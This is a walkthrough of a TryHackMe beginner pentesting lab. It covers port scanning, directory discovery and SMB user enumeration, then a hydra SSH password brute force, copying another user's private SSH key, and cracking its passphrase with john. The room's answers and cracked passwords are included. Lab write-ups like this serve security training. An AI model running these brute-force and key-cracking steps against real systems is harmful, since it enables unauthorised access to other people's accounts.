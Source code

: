 # Basic Pentesting Wlakthrough
### Link
- https://tryhackme.com/room/basicpentestingjt
------------------------
### Namp
- Find the services exposed by the machine
    - sudo nmap -sV -sC -oN [Path]/[Result File name].txt [IP]
    - Findings:
        - Open port: 22 / 80 / 139 / 445 / 8009 / 8080
        - Service exposed : smb
    - picture: [Basic_Pentesting_1.png](https://github.com/LNB283/THM/blob/main/EASY/Basic%20Pentesting/Pictures/Basic_Pentesting_1.png)
    - picture: [Basic_Pentesting_2.png](https://github.com/LNB283/THM/blob/main/EASY/Basic%20Pentesting/Pictures/Basic_Pentesting_2.png)
### Gobuster
- Find directories
    - sudo gobuster dir -u [IP] -w [path]/directory-list-2.3-medium.txt
    - picture: [Basic_Pentesting_3.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_3.png)

- *What is the name of the hidden directory on the web server(enter name without /)?*
    - **Answer**: development
### Analyze development folder
- Connect to /devolpment
    - [IP]/development
        - 2 files available: **dev.txt** and **J.txt**
        - picture: [Basic_Pentesting_4.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_4.png)
    - Analyze these 2 files
        - **dev.txt**
        > I'm using version 2.5.12

        > SMB has been configured

        > I got Apache set up. Will put in our content later.
        - **J.txt**
        > /etc/shadow to make sure we don't have any weak credentials,

        > and I was able to crack your hash really easily
### Search user - enum4linux
- For this step, we can use **enum4linux**
    - sudo enum4linux -a [IP]
    - result: [Basic_Pentesting_5.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_5.png)
 - What is the username?
    - **Answer**: jan
- What is the name of the other user you found(all lower case)?
    - **Answer**: kay
### Brute force Jan account
- For this step, we can use hydra
    -  hydra -l jan -P [path]/rockyou.txt ssh://[IP]
    - result: [Basic_Pentesting_6.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_6.png)
- What is the password?
    - **Answer**: armando

### Gain access to the machine
- For this step, we use SSH
    - picture: [Basic_Pentesting_7.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_7.png)
- What service do you use to access the server(answer in abbreviation in all caps)?
    - **Answer**: SSH
- Check /etc/passwd
    - picture: [Basic_Pentesting_8.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_8.png)
- Move to kay directory
    - /home/kay
- Check all files, hidden files included
    - ls -la
    - picture: [Basic_Pentesting_9.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_9.png)
    - Check all folders available. **.ssh** is accessible. We have public and private key.
    - We can access the private key **id_rsa**
        - Copy the private key
        - Create file on your local machine and try to access the targeted machine through SSH with kay private key
            - ssh -i id_rsa kay@[IP]
        - Result: We need password/passphrase
        - picture: [Basic_Pentesting_10.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_10.png)
### Obtain  hte password
- Previously, under /home/kay, we found the public and private key. We also know, from **J.txt**, the password is really easy to crack.
- From the public **id_rsa.pub**, let's try to obtain the hash by using ssh2john.py
    - /usr/share/john/ssh2john.py ./id_rsa > jay_hash.txt
- Now, use johntheripper
    - john jay_hash.txt
        - Result: 
        > Cost 1 (KDF/cipher [0=**MD5**/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
- This result means the encryption used is **MD5** so we can try with johntheripper to obtain the password
    - john jay_hash.txt --wordlist=[path]/rockyou.txt
        - Result:
        > beeswax
- Try one more time to access the server
    - ssh -i id_rsa kay@[IP]
    - Use the password
    - picture: [Basic_Pentesting_11.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_11.png)
- Navigate. We found the file **pass.bak**
- What is the final password you obtain?
    - **Answer**: heresareallystrongpasswordthatfollowsthepasswordpolicy$$
    - picture: [Basic_Pentesting_13.png](https://github.com/LNB283/THM/blob/main/Basic%20Pentesting/Pictures/Basic_Pentesting_13.png)


